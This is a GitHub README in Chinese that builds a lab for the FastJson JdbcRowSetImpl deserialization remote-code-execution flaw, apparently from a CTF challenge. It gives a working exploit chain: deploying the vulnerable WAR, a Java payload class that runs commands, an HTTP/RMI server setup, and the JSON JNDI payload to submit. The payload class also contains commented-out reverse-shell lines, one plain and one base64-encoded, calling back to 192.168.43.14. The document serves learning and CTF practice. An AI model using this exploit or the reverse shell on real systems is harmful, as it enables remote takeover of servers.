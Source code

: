 # FastJson-JdbcRowSetImpl

## 初心

### 在前不久的护网杯CTF比赛中，有一道Web的“easy_web”题，其实就是利用FastJson的JdbcRowSetImpl类反序列化漏洞进行Shell，然后cat Flag。一大部分人对这道题是懵逼的，没做出来，后面因护网杯题目关闭了，没有此漏洞的学习环境，所以我就写了此环境，方便大家学习交流。

## 漏洞环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P /opt/apache-tomcat-8.5.24/webapps/ && cd /opt/apache-tomcat-8.5.24/bin/ && ./startup.sh
--2018-10-19 03:56:31--  https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war
Resolving github.com (github.com)... 192.30.253.112, 192.30.253.113
Connecting to github.com (github.com)|192.30.253.112|:443... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://github.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/raw/master/FastJson_Vul.war [following]
--2018-10-19 03:56:34--  https://github.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/raw/master/FastJson_Vul.war
Reusing existing connection to github.com:443.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/master/FastJson_Vul.war [following]
--2018-10-19 03:56:36--  https://raw.githubusercontent.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/master/FastJson_Vul.war
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.24.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.24.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1124826 (1.1M) [application/octet-stream]
Saving to: ‘/opt/apache-tomcat-8.5.24/webapps/FastJson_Vul.war’

FastJson_Vul.war                          100%[==================================================================================>]   1.07M   116KB/s    in 9.2s

2018-10-19 03:56:46 (119 KB/s) - ‘/opt/apache-tomcat-8.5.24/webapps/FastJson_Vul.war’ saved [1124826/1124826]

Using CATALINA_BASE:   /opt/apache-tomcat-8.5.24
Using CATALINA_HOME:   /opt/apache-tomcat-8.5.24
Using CATALINA_TMPDIR: /opt/apache-tomcat-8.5.24/temp
Using JRE_HOME:        //opt/jdk1.8.0_131/jre
Using CLASSPATH:       /opt/apache-tomcat-8.5.24/bin/bootstrap.jar:/opt/apache-tomcat-8.5.24/bin/tomcat-juli.jar
Tomcat started.
root@Bearcat:/opt/apache-tomcat-8.5.24/bin#
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java类中的commands数组中构造想要执行的命令

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit进行攻击。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 成功执行命令，并touch test

```
String[] commands = {"touch","/opt/test"}; //Command
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/6.jpg?raw=true)

# 致谢我的好基友

### pyn3rd https://github.com/pyn3rd/CVE-2018-2893
### 背影   https://github.com/yanweijin
